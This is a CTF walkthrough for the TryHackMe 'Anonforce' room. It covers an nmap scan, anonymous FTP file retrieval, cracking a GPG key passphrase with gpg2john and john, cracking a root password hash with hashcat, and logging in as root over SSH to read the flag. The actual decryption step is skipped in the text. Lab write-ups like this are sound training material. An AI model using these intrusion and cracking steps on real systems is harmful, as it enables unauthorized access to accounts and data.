



https://tryhackme.com/room/bsidesgtanonforce boot2root machine for FIT and bsides guatemala CTF
```bash
└─$ nmap -p- -sS -sC -sV -A -T4 10.80.164.188

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Jan 05 10:02 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x   87 0        0               0 Jan 05 10:02 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Jan 05 10:02 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Jan 05 10:02 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 3 hops

```

ok, first thing I will do is checking ftp:

It was easy - I logged as ``ftp`` without password 
It was possible to read files in /home/melodias so I downloaded from ftp file user.txt
from /notread/ I downloaded files backup.pgp and private.asc

decrypting:

```bash
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ gpg --import private.asc

gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ gpg --list-secret-keys

/home/kali/.gnupg/pubring.kbx
-----------------------------
sec   dsa2048 2019-08-12 [SCA]
      4D2E29E1DEADDB9BC160BD88B92CD1F280AD82C2
uid           [ unknown] anonforce <melodias@anonforce.nsa>
ssb   elg512 2019-08-12 [E]
kali㉿kali)-[~/Desktop/tools/zad]
└─$ gpg -o backup --decrypt backup.pgp
gpg: encrypted with elg512 key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
gpg: public key decryption failed: No passphrase given
gpg: decryption failed: No passphrase given
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ gpg2john private.asc > gpg.hash


File private.asc
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ cat gpg.hash

anonforce:$gpg$*17*54*2048*e419ac715ed55197122fd0acc6477832266db83b63a3f0d16b7f5fb3db2b93a6a995013bb1e7aff697e782d505891ee260e957136577*3*254*2*9*16*5d044d82578ecc62baaa15c1bcf1cfdd*65536*d7d11d9bf6d08968:::anonforce <melodias@anonforce.nsa>::private.asc
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash

Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2026-01-05 13:59) 4.761g/s 4438p/s 4438c/s 4438C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tools/zad]
└─$ john --show gpg.hash

anonforce:xbox360:::anonforce <melodias@anonforce.nsa>::private.asc

1 password hash cracked, 0 left

```

now we can just use password to decrypt:

```
use hashcat to crack root password:
hashcat -m 1800 '$6$07nYFaYf***REDACTED***MNd2tV4uob5RVM0' /usr/share/wordlists/rockyou.txt

```
get root.txt flag after login as root via ssh:
```
ssh root@10.80.164.188
cat root.txt
```
